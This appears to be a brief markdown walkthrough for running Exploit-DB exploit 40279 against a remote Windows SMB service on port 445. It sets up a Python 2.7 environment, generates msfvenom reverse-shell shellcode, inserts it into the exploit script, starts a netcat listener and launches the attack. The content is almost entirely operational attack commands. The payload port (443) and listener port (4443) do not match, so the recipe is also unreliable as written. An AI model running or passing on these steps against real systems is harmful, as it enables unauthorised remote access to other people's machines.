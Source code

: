 ### prepare exploit
```
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
pip2 install impacket
pip2 install pycrypto
```

### generate reverse shell (lport 443 works fine)
```
msfvenom -p windows/shell_reverse_tcp lhost=<lhost> lport=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

### replace shellcode
```
vim 40279.py
# insert:
shellcode="[...]"
shellcode+=[...]
```

### start listener
```
nc -lnvp 4443
```

### exploit
```
python2.7 40279.py <rhost> 445
```

### References
https://www.exploit-db.com/exploits/40279  

